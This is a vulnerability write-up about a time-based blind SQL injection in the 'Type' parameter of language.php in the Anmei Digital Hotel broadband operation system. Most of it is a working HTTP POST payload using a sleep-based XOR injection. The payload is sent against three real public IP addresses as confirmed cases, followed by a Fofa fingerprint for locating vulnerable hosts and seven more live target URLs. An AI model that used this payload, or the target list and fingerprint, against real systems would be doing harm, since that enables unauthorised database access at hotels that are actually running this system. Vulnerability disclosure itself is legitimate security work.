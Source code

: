 **Time blind injection type SQL injection exists in the Anmei Digital Hotel broadband operation system**

**Official website: http://www.amttgroup.com/**
**Function point: At the editing interface of the language configuration page language. php**
**Route: ip:port/language.php**
**The injection parameter: Type**
**Fofa syntax: icon_hash="1259797304"**
**The vulnerability verification data packet is as follows**

```
POST /language.php HTTP/1.1
Host: ip:port
Connection: Keep-alive
Content-Type: application/x-www-form-urlencoded
X-Requested-With: XMLHttpRequest
Cookie: PHPSESSID=3n9dv7r0vl6fcvirnlvp2oh1t4; dashboroad=srgua4gv7d2jnichvtl66l1146
Content-Length: 263
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Encoding: gzip,deflate,br
User-Agent: User-Agent: Mozilla/4.0 (compatible; MSIE 7.0; Windows NT 5.1; 360SE)

EditStatus=1&LangEName=pHqghUme&LangID=1&LangName=pHqghUme&LangType=0000%E7%B3%BB%E7%BB%9F%E5%9F%BA%E6%9C%AC%E4%BF%A1%E6%81%AF&Lately=555-666-0606&Search=the&SerialID=1&Type=0'XOR(if(now()=sysdate()%2Csleep(5)%2C0))XOR'Z&UID=add&submit=%20%E6%B7%BB%20%E5%8A%A0%20
```
**Vulnerability Case 1:**
[**https://113.140.76.67:6070/manager/login.php**](https://113.140.76.67:6070/manager/login.php)
![image.png](https://cdn.nlark.com/yuque/0/2023/png/36030634/1701499749754-39d596ac-9556-4a37-8856-8c0935953394.png#averageHue=%2399b9d3&clientId=u95a6dc4b-efa8-4&from=paste&height=785&id=u20424b60&originHeight=981&originWidth=1612&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=299714&status=done&style=none&taskId=u84bbbd48-7e5b-42b9-a187-e904cb3371c&title=&width=1289.6)

**Construct vulnerability verification packets and successfully delay injection**
```
POST /language.php HTTP/1.1
Host: 113.140.76.67:6070
Connection: Keep-alive
Content-Type: application/x-www-form-urlencoded
X-Requested-With: XMLHttpRequest
Cookie: PHPSESSID=3n9dv7r0vl6fcvirnlvp2oh1t4; dashboroad=srgua4gv7d2jnichvtl66l1146
Content-Length: 267
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Encoding: gzip,deflate,br
User-Agent: User-Agent: Mozilla/4.0 (compatible; MSIE 7.0; Windows NT 5.1; 360SE)

EditStatus=1&LangEName=pHqghUme&LangID=1&LangName=pHqghUme&LangType=0000%E7%B3%BB%E7%BB%9F%E5%9F%BA%E6%9C%AC%E4%BF%A1%E6%81%AF&Lately=555-666-0606&Search=the&SerialID=1&Type=0'XOR(if(now()=sysdate()%2Csleep(5)%2C0))XOR'Z&UID=add&submit=%20%E6%B7%BB%20%E5%8A%A0%20
```
![image.png](https://cdn.nlark.com/yuque/0/2023/png/36030634/1701499722920-24ff721b-eecf-4e67-b379-3d57fcb65d29.png#averageHue=%23f9f7f7&clientId=u95a6dc4b-efa8-4&from=paste&height=674&id=u836fcc32&originHeight=843&originWidth=1580&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=388228&status=done&style=none&taskId=uf0c4715f-9ee3-4069-9cb7-036ed30465f&title=&width=1264)
**Vulnerability Case 2:**
[**https://202.105.109.76:7070/manager/login.php**](https://202.105.109.76:7070/manager/login.php)

**Construct vulnerability verification packets and successfully delay injection**
```
POST /language.php HTTP/1.1
Host: 202.105.109.76:7070
Connection: Keep-alive
Content-Type: application/x-www-form-urlencoded
X-Requested-With: XMLHttpRequest
Cookie: PHPSESSID=3n9dv7r0vl6fcvirnlvp2oh1t4; dashboroad=srgua4gv7d2jnichvtl66l1146
Content-Length: 267
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Encoding: gzip,deflate,br
User-Agent: User-Agent: Mozilla/4.0 (compatible; MSIE 7.0; Windows NT 5.1; 360SE)

EditStatus=1&LangEName=pHqghUme&LangID=1&LangName=pHqghUme&LangType=0000%E7%B3%BB%E7%BB%9F%E5%9F%BA%E6%9C%AC%E4%BF%A1%E6%81%AF&Lately=555-666-0606&Search=the&SerialID=1&Type=0'XOR(if(now()=sysdate()%2Csleep(5)%2C0))XOR'Z&UID=add&submit=%20%E6%B7%BB%20%E5%8A%A0%20
```
![image.png](https://cdn.nlark.com/yuque/0/2023/png/36030634/1701499824396-edd67679-0ffb-430d-bda9-250cf232fcea.png#averageHue=%23f9f7f7&clientId=u95a6dc4b-efa8-4&from=paste&height=660&id=u9bdf3b23&originHeight=825&originWidth=1578&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=388316&status=done&style=none&taskId=u152bfd0b-21ed-48a7-b1f8-18d4e4719da&title=&width=1262.4)**Vulnerability Case 3:**
[**https://218.29.143.74:7071/manager/login.php**](https://218.29.143.74:7071/manager/login.php)

**Construct vulnerability verification packets and successfully delay injection**
```
POST /language.php HTTP/1.1
Host: 218.29.143.74:7071
Connection: Keep-alive
Content-Type: application/x-www-form-urlencoded
X-Requested-With: XMLHttpRequest
Cookie: PHPSESSID=3n9dv7r0vl6fcvirnlvp2oh1t4; dashboroad=srgua4gv7d2jnichvtl66l1146
Content-Length: 265
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Encoding: gzip,deflate,br
User-Agent: User-Agent: Mozilla/4.0 (compatible; MSIE 7.0; Windows NT 5.1; 360SE)

EditStatus=1&LangEName=pHqghUme&LangID=1&LangName=pHqghUme&LangType=0000%E7%B3%BB%E7%BB%9F%E5%9F%BA%E6%9C%AC%E4%BF%A1%E6%81%AF&Lately=555-666-0606&Search=the&SerialID=1&Type=0'XOR(if(now()=sysdate()%2Csleep(5)%2C0))XOR'Z&UID=add&submit=%20%E6%B7%BB%20%E5%8A%A0%20

```
![image.png](https://cdn.nlark.com/yuque/0/2023/png/36030634/1701499881158-e38995e4-a6be-4a54-bab1-5c51dec16a13.png#averageHue=%23f9f7f7&clientId=u95a6dc4b-efa8-4&from=paste&height=663&id=u1b78ab13&originHeight=829&originWidth=1580&originalType=binary&ratio=1.25&rotation=0&showTitle=false&size=386822&status=done&style=none&taskId=u25a2cfad-42ec-4257-9c34-503246b9283&title=&width=1264)
**Other cases of vulnerabilities:**
[https://183.62.208.100:7070/manager/login.php](https://183.62.208.100:7070/manager/login.php)

[https://61.185.56.165:7080/manager/login.php](https://61.185.56.165:7080/manager/login.php)

[https://1.82.161.207:7080/manager/login.php](https://1.82.161.207:7080/manager/login.php)

[https://113.59.71.176:7070/manager/login.php](https://113.59.71.176:7070/manager/login.php)

[https://119.4.56.35:7070/manager/login.php](https://119.4.56.35:7070/manager/login.php)

[https://1.202.129.226:7070/manager/login.php](https://1.202.129.226:7070/manager/login.php)

[https://202.97.137.229:62443/manager/login.php](https://202.97.137.229:62443/manager/login.php)
